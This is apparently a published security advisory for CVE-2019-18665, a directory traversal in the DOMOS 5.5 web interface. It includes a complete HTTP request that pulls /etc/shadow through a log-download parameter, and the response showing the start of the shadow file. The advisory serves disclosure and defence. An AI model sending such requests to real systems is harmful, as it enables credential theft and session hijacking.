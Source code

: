 ```yaml
---
layout: post
title: "CVE-2019-18665: Directory Traversal in DOMOS"
date:   2019-11-01 14:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: SECUDOS GmbH
- Product: DOMOS
- Version: 5.5
- Vulnerability: Directory Traversal
- Fixed Version: 5.6

# Background

DOMOS is an own and hardened operating system of SCUDOS GmbH. The operating system is used as a platform by several applications. It also offers a web interface for the administration of operating system settings.

# Issue Description

While analyzing the implementation of the DOMOS web interface, one directory traversal vulnerability has been identified, which can be exploited in order to read session_id´s from other registered users and this can lead to a session hijacking of those users. This vulnerability can be exploited by authenticated attackers with access to the web interface.

Please consider the following complete HTTP-Request:

__HTTP-Request__

~~~ http
GET /page/sl_logdl?dcfct=DCMlog.download_log&dbkey%3Asyslog.rlog=/etc/shadow HTTP/1.1

Host: 10.10.10.1:10000
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Falkon/3.0.1 Chrome/69.0.3497.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.8
Cookie: L=german; S=WdylJWgYQfqXVu1VkvBP9pwxBdh91bhDWB87eB5h;
session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611
~~~

The following HTTP response include the password hashes from the /etc/shadow:

__HTTP-Request__

~~~ http
HTTP/1.1 200 OK

Server: nginx/1.9.14
Date: Thu, 24 Jan 2019 11:48:50 GMT
Content-Type: application/data
Content-Length: 870
Connection: close
Last-Modified: Thu, 24 Jan 2019 11:48:50 GMT
Content-Disposition: shadow; filename="shadow"
Set-Cookie: session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611;
expires=Fri, 25 Jan 2019 04:27:50 GMT; httponly; Path=/; secure
Strict-Transport-Security: max-age=15768000
X-Frame-Options: sameorigin
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Permitted-Cross-Domain-Policies: master-only

root:$1$xxxxxxxxxxx:17919:0:99999:7:::
bin:*:17632:0:99999:7:::
daemon:*:17632:0:99999:7:::
...[SNIP]...
~~~

# CVE

[CVE-2019-18665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18665)

# CVSSv3 Base Score

CVSS Base Score: __6.5__

CVSS:3.0/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:N/A:N

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
